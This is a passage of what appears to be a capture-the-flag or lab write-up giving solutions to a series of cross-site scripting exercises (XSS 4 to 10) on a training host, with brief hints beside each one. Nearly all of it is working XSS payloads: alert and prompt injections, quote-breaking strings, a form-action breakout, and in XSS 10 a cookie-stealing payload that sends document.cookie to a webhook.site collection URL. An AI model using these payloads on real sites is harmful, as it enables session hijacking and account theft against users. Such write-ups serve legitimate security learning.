 ```
<img src="zzz" onError="alert('1')">
```

### XSS - 5

Seems like alert is blocked.

```
<script>prompt('9099ff30-bcb2-4aa6-be31-bb9e8de9ef03')</script>
```

### XSS - 6

Look at the source code to see what is happening.

```
tipsy";alert('9099ff30-bcb2-4aa6-be31-bb9e8de9ef03');"
```

### XSS - 7

Change double quotes to single ones.

```
tipsy';alert('9099ff30-bcb2-4aa6-be31-bb9e8de9ef03');'
```

### XSS - 8

```
Source:
<form action="/index.php/..<script>alert(1)</script>" method="POST">

Exploit:
.."/><script>alert(1)</script>
```

### XSS - 9

```
http://ptl-51cd089b-b0b3f470.libcurl.so/index.php#%3Cscript%3Ealert('1')%3C/script%3E
```

### XSS - 10

webhook.site can be used to get requests.

To steal cookies, our payload should be like

```
<script>document.write('<img src="[URL]?c='+document.cookie+'" />');</script>
```

```
%27<img%20src="https://webhook.site/31653fb5-e7ba-4607-b81b-9fa0165fa021?c=+%27document.cookie+"%20/>%27
```

Final payload

```
<script>document.write('<img src="https://webhook.site/31653fb5-e7ba-4607-b81b-9fa0165fa021?c='+document.cookie+'" />');</script>
```

Important thing to note is that always try to url encode your data.
